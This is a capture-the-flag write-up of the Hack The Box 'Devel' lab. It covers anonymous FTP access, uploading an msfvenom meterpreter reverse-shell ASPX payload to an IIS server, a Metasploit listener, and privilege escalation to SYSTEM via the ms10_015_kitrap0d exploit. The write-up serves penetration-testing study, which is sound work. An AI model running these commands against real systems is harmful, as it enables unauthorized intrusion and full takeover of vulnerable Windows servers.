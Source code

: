 ### HTB Devel Write up

So I got into studying for my PNPT (as evidenced by notes in another repo of mine) and it brought me back to HTB.  So here we go, yea!  Sorry no screen shots for this one, tried recording it and the pic quality isn't the greatest.  Will be more next time, I promise.

First up, Devel box.  Quick peek into guided mode and we see a number of questions.

Stared up the box and got my VPN set back up and everything going on my Kali.

First command, as always, nmap!
```
sudo nmap -sV 10.10.10.5
```
This gave me the answer to the first question.  Along with ftp on 21, it's also running an http server on 80.  Quick browse to that and it's a simple webpage that hasn't been set up, just 'turned on' if you will.

Also check ftp and it looks like it's able to be logged in with anonymous, pretty handy.
```
ftp 10.10.10.5
anonymous
<make up some password>
```

And you're in.  You can see that in the directory the ftp points to, you get the same files that look like they would be in a root directory for an IIS instance (funny, that's what we found earlier).  I wonder if this is the same directory.  Create a file and use ftp to upload said file and see if you can access it.
```
put yourfile.txt yourfile.txt
```

Then open the browser and navigate to that page and you should see the text you put into the file.  Success!!  You should see the text that you put into the file.

Now that we know we can upload files to the server, we can use msfvenom to write a payload like this:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f aspx > devel.aspx 
```
Here I used 'tun0' since that was my VPN tunnel but you can use whatever interface you need to or you can set it to your ip, be it your VPN ip or however you are connecting.  Make sure you note the port too.

Once that completes you should have a file kicked out named 'devel.aspx'.  Use the ftp connection we established (reconnect if you need to) and upload that file to the devel box.

Once that is done, you'll want to open a meterpreter listener.
```
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 4444
exploit
```

Once that is running, go back to the webpage and load the devel.aspx file and that should create your connection.  Important here, make sure you set your payload.  I went around and around with this and realized I never set my payload and that's why it would not work for me.  Don't be a dunce like me, set your payloads peeps!!

Now that we're all happy and goo....wait, we're not all happy and good?  Oh, we're the IIS default user....with no real priviledges.  Hmm....

So we background that session and search metasploit again.  This time we search with the local_exploit_suggester module.  I've read this is reliable with x86 architecture, not so much x64.  Since we know we're on x86, this is fine.  We find a number of options, the one we're looking for is `ms10_015_kitrap0d`.

```
use exploit/windows/local/ms10_015_kitrap0d
set payload windows/meterpreter/reverse_tcp
set session 1
exploit
```

Again, I'm going to always set my payloads now.  And the session ID is the session you have running currently.  Once this runs, I was able to get in and getuid return NT AUTHORITY\SYSTEM.

Once you get that, you can grab your flags and be on your merry way.

### Lessons learned

First, don't rely on OBS studio screen recorder to get very great resolution.  Second, always set payloads cause the default may not be what you are needing it to be.  Third, don't let it be so long between these things!!  Until next time kids!
